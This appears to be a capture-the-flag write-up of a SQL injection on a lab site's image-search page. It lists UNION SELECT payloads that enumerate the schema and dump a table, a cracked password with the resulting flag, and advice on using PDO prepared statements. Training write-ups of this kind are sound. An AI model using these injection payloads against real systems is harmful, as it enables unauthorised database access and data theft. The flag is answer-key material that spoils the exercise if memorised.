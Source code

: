 # SQL Injection - Images 

f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188

---

## Description

go to `/?page=searchimg`

submit :
- `1 AND 1=2 UNION SELECT column_name , 1 FROM information_schema.columns`
- `1 AND 1=2 UNION SELECT table_name , 1 FROM information_schema.columns`
- `1 AND 1=2 UNION SELECT table_schema, 1 FROM information_schema.tables`

then \
`1 AND 1=2 UNION SELECT title, comment FROM Member_images.list_images`

"If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46" \

password => 1928e8083cf461a51303633093573c46 => albatroz

albatroz => sha256 => f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188

---

## How to prevent it ?

In the case of a php back-end, use PDO :
- The query will be sanitized with the `prepare` statement
- It will then be executed with the `execute` statement once the risk of an undesired effect is avoided

Here is a more detailed explanation found on SO regarding the `prepare` command :

>"The SQL statement you pass to prepare is parsed and compiled by the database server. By specifying parameters (either a ? or a named parameter like :name in the example above) you tell the database engine where you want to filter on. Then when you call execute, the prepared statement is combined with the parameter values you specify.

>The important thing here is that the parameter values are combined with the compiled statement, not an SQL string. SQL injection works by tricking the script into including malicious strings when it creates SQL to send to the database. So by sending the actual SQL separately from the parameters, you limit the risk of ending up with something you didn't intend."
